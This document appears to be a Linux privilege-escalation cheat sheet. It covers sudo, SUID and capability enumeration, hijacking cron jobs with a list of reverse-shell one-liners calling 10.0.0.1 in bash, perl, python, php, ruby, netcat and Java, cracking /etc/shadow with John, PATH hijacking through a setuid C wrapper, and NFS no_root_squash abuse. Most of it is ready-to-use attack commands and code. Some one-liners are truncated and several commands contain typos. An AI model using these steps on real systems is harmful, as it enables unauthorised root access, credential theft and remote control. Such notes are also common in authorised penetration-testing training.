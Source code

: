 If you have local access to the machine first you want to find a way to get root.
First check what programs you can run as sudo so run:

	sudo -l

This is list all the programs that you can run as root and might give you a path to escalate your
privileges. Check at this wedsite to see if any of the progams are listed for sudo:

	https://gtfobins.github.io/gtfobins/nmap/

Next we will check to see if any programs allow SUID or SGID bits set.

	find / -type f -perm -04000 -ls 2>/dev/null

These will likely let you read the contents of a file that you normally would not normally be able to.
For example the contents of /etc/shadow, this may allow you to crack a password and get root access.


The next thing we will check is capabilities using this command:

	getcap -r / 2>/dev/null


This will redirect any errors using the standard 2>/dev/null, if any capabilities are found check gtfo 
for a path.


Next we will look for any crontab jobs that we might be able to hijack:

	cat /etc/contab

If there is an existing crobtab job we can change the code to start a reverse shell.
Make sure the file is still executable after using:

	chmod +x <filename>

	Bash:
	bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
	
	PERL:
	perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in

	
	python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234))

	PHP:
	php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
	
	Ruby:
	ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

	Netcat:
	nc -e /bin/sh 10.0.0.1 1234

	Java:
	r = Runtime.getRuntime()
	p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
	p.waitFor()

Make sure you change the IP address and Port and start a listening port on your attck machine.
For even more reverse shells check out this site:

	https://www.revshells.com/

Once you have a root shell you can read the contents of /etc/shadow, this will allow you to try
and crack the hashes.

Copy the full shadow file or just the users you wish to crack then run this John command:

	john --wordlist=/usr/share/wordlist/rockyou.txt --format=sha512crypt shadowfile.txt

Check your path variables with:


	echo $PATH
	find / -writable 2>/dev/null
	find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u


The second and third commands will show what folders your user has write access to.
If have have writeable access to the path you can add additionl paths:

	export PATH=/tmp:$PATH

For example this will add the /tmp folder to path.  Then cd into tmp and crate a file thm.


	cd /tmp
	echo "/bin/bash" > thm
	chmod 777 thm
	

Then create a c file that calls the thm binary which will elevate your privledges to root.

	#include<unistd.h>
	void main()
	{ setuid(0);
	  setgid(0);
	  system("thm");
	}

Once the file is saved for example as file_exp.c complile it then run it.


	gcc file_exp.c -o file -w
	chmod u+s file
	./file


Next we will check for shares that we can mount.  One the target system run:

	cat /etc/exports

If any shares have no_root_squash then if they are mounted on another system you will not lose root.

On the attack system run:

	showmount -e <target IP>

Create a tmp directory and then mount a share that has no_root_squash and your user account has executable rights.

	mkdir /tmp/backup
	mount -o rw <target IP>:/<share> /tmp/backup
	cd /tmp/backup
	nano nfc.c

	int main()
	{ setgid(0);
	  setuid(0);
	  system("/bin/bash");
	  return 0;
	}

Once you save the nfs.c complile it with gcc.


	gcc nfs-c -o nfs -w
	chmod +s nfs


Switch back to the attack machine and you should see both files run the compliled file.


	./nfs

There are more and new escalation techniques all the time but this will get you started.



	

